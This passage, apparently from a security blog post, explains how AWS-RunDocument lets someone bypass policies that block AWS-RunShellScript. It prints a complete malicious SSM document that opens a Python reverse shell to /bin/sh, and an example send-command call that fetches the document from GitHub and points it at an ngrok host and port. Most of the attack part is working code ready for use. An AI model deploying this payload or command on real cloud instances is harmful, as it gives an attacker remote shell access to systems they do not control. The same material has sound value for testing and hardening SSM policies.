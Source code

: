 Well, if AWS-RunDocument is not blocked then the policy is useless. You can copy the content of, let’s say, AWS-RunShellScript document, store it on your server and use AWS-RunDocument to execute a replica of the AWS-RunShellScript document, which will result in the exact outcome as if you would have used AWS-RunShellScript directly.

It can downloads documents from GitHub repositories, S3 Buckets, HTTP(S) servers, but also can get a document as parameter from CLI. Same as for the other documents, you can create parameterized payloads that can be reused. It offers infinite possibilities in terms of what can you do.

Here is an example of malicious SSM Document that will generate a reverse shell through python (I don’t know why, but the Bash TCP payload doesn’t work with AWS-RunDocument).

Source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-RunDocument/linux/Reverse-Shell-Python

```json
{
  "schemaVersion": "2.2",
  "description": "rev shell document linux",
  "parameters": {
    "host": {
      "description": "(Required) Specify the host.",
      "type": "String"
    },
    "port": {
      "description": "(Optional) Specify the port. The default value is 4444.",
      "type": "String",
      "default": "4444"
    }
  },
  "mainSteps": [
    {
      "action": "aws:runShellScript",
      "name": "shell",
      "inputs": {
        "runCommand": [
          "port={{ port }}",
          "host1={{ host }}",
          "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"'$host1'\",'$port'));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"
        ]
      }
    }
  ]
}
```

Example usage:

```bash
ws ssm send-command --document-name "AWS-RunDocument" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/linux/Reverse-Shell-Python\",\"getOptions\":\"branch:main\"}"], "documentParameters":["{\"host\":\"2.tcp.eu.ngrok.io\",\"port\":\"11448\"}"]}'
```
